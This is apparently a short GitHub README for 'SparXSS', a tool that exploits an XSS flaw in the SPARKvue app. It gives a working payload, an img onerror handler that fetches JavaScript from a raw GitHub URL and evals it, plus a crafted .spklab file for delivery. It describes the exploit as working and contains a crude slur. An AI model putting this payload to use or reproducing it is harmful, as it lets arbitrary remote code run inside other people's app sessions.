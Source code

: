 # SparXSS

## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r => r.text()).then(c => eval(c))'>```

The If Statement In The First Line Was Because It Would Execute Multiple Times While I Was Testing It

You Can Also Use The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App

# ToDo
- ~~Make Icon's Show up for Every URL~~
- Make the custom URL's stay when you export the .spklab file (close to getting this working)

# Current Status:
- Working (it wasn't before bc im a retard)
